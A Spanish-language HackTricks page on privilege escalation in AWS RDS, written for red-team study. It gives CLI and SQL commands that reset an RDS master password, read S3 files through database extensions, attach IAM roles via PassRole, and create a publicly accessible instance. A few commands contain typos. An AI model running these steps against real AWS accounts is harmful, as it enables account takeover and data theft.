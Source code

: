 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Servicio de Base de Datos Relacional

Para más información sobre RDS consulta:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Con ese permiso, un atacante puede **modificar la contraseña del usuario maestro**, y el inicio de sesión dentro de la base de datos:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Necesitarás poder **contactar a la base de datos** (generalmente solo son accesibles desde redes internas).
{% endhint %}

**Impacto Potencial:** Encontrar información sensible dentro de las bases de datos.

### rds-db:connect

Según la [**documentación**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un usuario con este permiso podría conectarse a la instancia de DB.

### Abuso de permisos de rol IAM de RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Si al ejecutar **`SELECT datname FROM pg_database;`** encuentras una base de datos llamada **`rdsadmin`**, sabes que estás dentro de una **base de datos postgresql de AWS**.
{% endhint %}

Primero puedes verificar si esta base de datos ha sido utilizada para acceder a algún otro servicio de AWS. Podrías comprobar esto mirando las extensiones instaladas:
```sql
SELECT * FROM pg_extension;
```
Si encuentras algo como **`aws_s3`** puedes asumir que esta base de datos tiene **algún tipo de acceso sobre S3** (hay otras extensiones como **`aws_ml`** y **`aws_lambda`**).

Además, si tienes permisos para ejecutar **`aws rds describe-db-clusters`** puedes ver allí si el **clúster tiene algún rol de IAM adjunto** en el campo **`AssociatedRoles`**. Si hay alguno, puedes asumir que la base de datos fue **preparada para acceder a otros servicios de AWS**. Basado en el **nombre del rol** (o si puedes obtener los **permisos** del rol) podrías **adivinar** qué acceso adicional tiene la base de datos.

Ahora, para **leer un archivo dentro de un bucket** necesitas conocer la ruta completa. Puedes leerlo con:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Si tuvieras **credenciales de AWS en bruto**, también podrías usarlas para acceder a datos de S3 con:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **no necesita cambiar ninguna variable del grupo de parámetros** para poder acceder a S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Dentro de un mysql, si ejecutas la consulta **`SELECT User, Host FROM mysql.user;`** y hay un usuario llamado **`rdsadmin`**, puedes asumir que estás dentro de una **base de datos mysql de AWS RDS**.
{% endhint %}

Dentro del mysql ejecuta **`show variables;`** y si las variables como **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, tienen valores, puedes asumir que la base de datos está preparada para acceder a datos de S3.

Además, si tienes permisos para ejecutar **`aws rds describe-db-clusters`** puedes verificar si el clúster tiene algún **rol asociado**, lo que generalmente significa acceso a servicios de AWS).

Ahora, para **leer un archivo dentro de un bucket** necesitas conocer la ruta completa. Puedes leerlo con:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un atacante con los permisos `rds:AddRoleToDBCluster` y `iam:PassRole` puede **agregar un rol específico a una instancia RDS existente**. Esto podría permitir al atacante **acceder a datos sensibles** o modificar los datos dentro de la instancia.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impacto Potencial**: Acceso a datos sensibles o modificaciones no autorizadas a los datos en la instancia RDS.\
Tenga en cuenta que algunas bases de datos requieren configuraciones adicionales, como Mysql, que necesita especificar el ARN del rol en los grupos de parámetros también.

### `rds:CreateDBInstance`

Solo con este permiso, un atacante podría crear una **nueva instancia dentro de un clúster** que ya existe y tiene un **rol IAM** adjunto. No podrá cambiar la contraseña del usuario maestro, pero podría exponer la nueva instancia de base de datos a Internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Probar
{% endhint %}

Un atacante con los permisos `rds:CreateDBInstance` y `iam:PassRole` puede **crear una nueva instancia de RDS con un rol especificado adjunto**. El atacante puede entonces potencialmente **acceder a datos sensibles** o modificar los datos dentro de la instancia.

{% hint style="warning" %}
Algunos requisitos del rol/perfil de instancia para adjuntar (de [**aquí**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* El perfil debe existir en tu cuenta.
* El perfil debe tener un rol IAM que Amazon EC2 tenga permisos para asumir.
* El nombre del perfil de instancia y el nombre del rol IAM asociado deben comenzar con el prefijo `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impacto Potencial**: Acceso a datos sensibles o modificaciones no autorizadas a los datos en la instancia RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un atacante con los permisos `rds:AddRoleToDBInstance` y `iam:PassRole` puede **agregar un rol específico a una instancia RDS existente**. Esto podría permitir al atacante **acceder a datos sensibles** o modificar los datos dentro de la instancia.

{% hint style="warning" %}
La instancia de DB debe estar fuera de un clúster para esto
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impacto Potencial**: Acceso a datos sensibles o modificaciones no autorizadas a los datos en la instancia RDS.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
